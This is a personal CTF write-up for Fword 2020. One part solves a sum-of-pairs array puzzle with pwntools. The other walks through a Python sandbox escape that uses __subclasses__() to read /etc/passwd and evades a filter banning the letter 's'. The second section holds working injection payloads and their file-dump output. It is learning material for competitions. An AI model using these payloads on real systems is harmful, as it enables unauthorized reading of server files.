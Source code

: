 ```yaml
---
image: "./fwords_score.png"
toc: true
layout: post
description: Stuff I learnt from the fwords.wtf 2020 ctf.
categories: [ctf, security]
title: Fword 2020 CTF write-up
comments: true
---
```


![Final leaderboard](./fwords_score.png)

This was one of the first CTFs I've competed in, and I'm pretty happy with the performance we obtained. I worked on two problems, one which I didn't get in the end. But it was still a great learning experience. I definitely got carried by the other people in my team, who did really well in the `pwn` section.

## Problem 1 - Secret Array

**TL;DR**

- use `pwntools` to interface with the IP and port, not netcat, as there is no easy way to pipe python output to netcat
- **DON'T name your file something generic like `pwn.py` or `numbers.py`, as those are internally used by `pwntools`, and will result in failures DX**
- don't overengineer your answers, occam's razor
- installation steps:

```bash
virtualenv venv
. venv/bin/activate
pip install pwntools
```

The problem was hosted in a server, and netcat was used to access it.
`nc secretarray.fword.wtf 1337`

The problem stated that there were 1337 unknown numbers in an array, and we were allowed to query the server with 2 valid indices, which would return the sum of the two numbers in the array at those indices. We were allowed to query the server 1337 times.

At first glance, I immediately felt like this would be a great opportunity to use `np.linalg.solve`, as the problem was essentially a really big simultaneous equations problem, so at first I made arbitrary guesses of the form:

```python
for i in range(1337):
    if i == 1336:
        print(f"0 1336")
    else:
        print(f"{i} {i+1}")
```

This yielded a list of 1337 numbers, which I turned into a numpy array. I also converted my guesses into a numpy matrix like so:

```python
matrix = np.zeros((1337,1337))
for i in range(1337):

    if i == 1336:
        matrix[i,i] = 1
        matrix[i,0] = 1
    else:
        matrix[i,i] = 1
        matrix[i,i+1] = 1

matrix = matrix.astype('float64')
ans = np.linalg.solve(matrix, res)
for a in ans:
    print(a)
```

However, I immediately realised this wasn't going to work when I was getting floats as my answers...

So instead, I decided to rethink my strategy, since the simulataneous equations were quite simple:

- Let every element in the array be labelled like $a_{i}, i \in 1,2,...,N, \text{where } N=1337$.
- Thinking for a simple case, where $N=3$, we see that for the following chosen indices:

$$
\begin{cases}
a_0 + a_1 = b_0 \qquad (1)\\
a_0 + a_2 = b_1 \qquad (2)\\
a_1 + a_2 = b_2 \qquad (3)
\end{cases}
$$

- We can simply solve these by computing $(1)-(2) \equiv a_1 - a_2 = b_0 - b_1$, adding this to $(3)$, we obtain

$$
\begin{cases}
a_0 = b_0 - a_1 \\
a_1 = \frac{b_0 - b_1 + b_2}{2} \\
a_2 = b_0 - a_2
\end{cases}
$$

By solving this simplest case, we get a values for $a_0, a_1, a_2$ and we can easily extend this scenario to $N=4$ by taking the 4th simultaneous equation to be

$$
\begin{aligned}
a_2 + a_3 &= b_3 \\
\therefore a_3 &= b_3 - a_2
\end{aligned}
$$

So I just coded this:

```python
with open('output.txt','r') as f:
    data = f.readlines()

data = [int(d[:-1]) for d in data] #strip newline

# solve the first 3
answers = [0 for _ in range(1337)]

answers[1] = (data[0]-data[1]+data[2])/2
answers[0] = data[0]-answers[1]
answers[2] = data[2]-answers[1]

for i in range(3,1337):
    answers[i] = data[i]-answers[i-1]

# checking
assert(answers[0]+answers[1] == data[0])
assert(answers[0]+answers[2] == data[1])
assert(answers[1]+answers[2] == data[2])
for i in range(3,1337):
    assert(answers[i-1]+answers[i] == data[i])

print("DONE "+" ".join(str(a) for a in answers))
```

Now, when I was trying to get `pwntools` to work, I had made the moronically called the file `pwn.py` which was an internal file used in `pwntools`, so it failed, I eventually got my friend to run the code above and he got the flag :S.

## Problem 2 - Directory Manager

This one was really hard and involved a Server Side Template Injection in python. I didn't get it this time, but here are some things I found out that might prove useful in later CTFs.

### Recon

I just kept trying different inputs, here are some examples of what I got

```
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir
<built-in function dir>
```

Some more examples include:

```
dir: <built-in function dir>
file: <type 'file'>
exit: Use exit() or Ctrl-D (i.e. EOF) to exit
anything where the second letter is an s: Thank you !
[]: []
['hello']: []
['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']: ['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']
```

Ultimately, from the output interpretations of `dir` and `file`, I was pretty sure python code was executing. However, interestingly any input that contained the letter 's' would fail with `Thank you !`.

### Intro to SSTI

In a previous challenge, I performed Server Side Template Injection (SSTI) and remote code execution (RCE) through a Flask template input by exploiting the fact that `file` is a built in type, and that there were certain builtin class functions that let you go from any one class to any other class.

```python
>>> [].__class__
<type 'list'>
```

Here, we can abuse the `.__class__` method to obtain a reference to the list object type.

```python
>>> [].__class__.__base__
<type 'object'>
```

We can go further and obtain the object class like so.

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

We can actually find the `file` type, by taking the 40th element in this list:

```python
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```

And finally, we can use this type as a function to read and print a file.

```python
>>> [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n'
```

### no 's'

Now you can probably see why banning the letter 's' would be problematic, as the letter 's' appears in all the builtin functions we used to grab the file type.

However, fear not, as security engineers always find a way!

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[dir()]
[['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__warningregistry__', 'conn', 'inp', 'isallowed', 'ldap']]
```

I found I was able to evaluate the `dir()` function if it was contained in a list, and lo and behold! the first element of this list has the letter 's' in it~

I grabbed this 's' to see if it would pass whatever black listing was happening behind the scenes:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir()[0][9]
s
```

Bingo. Now, I just used the string `format` function to craft the payload shown in the previous section:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```

Although I was able to read `/etc/passwd`, as well as some other common files like `.bashrc`, without access to the `os` library, I was unnable to get a list of the directory, to know which file to target.

### Failures

I tried a lot of different things, here's how they worked out:

- I can `eval` but I am blacklisted from running `exec`, or running `eval(compile())`, which means I cannot import.
- I can use `__import__(os).listdirs()` but this is blocked from running, and black listed.
  Really, I spent a few hours testing random directories and possible file names for the flag, but without access to `ls`, I am really at a loss for knowing which file to target. Hence I was unable to get the flag in the end.

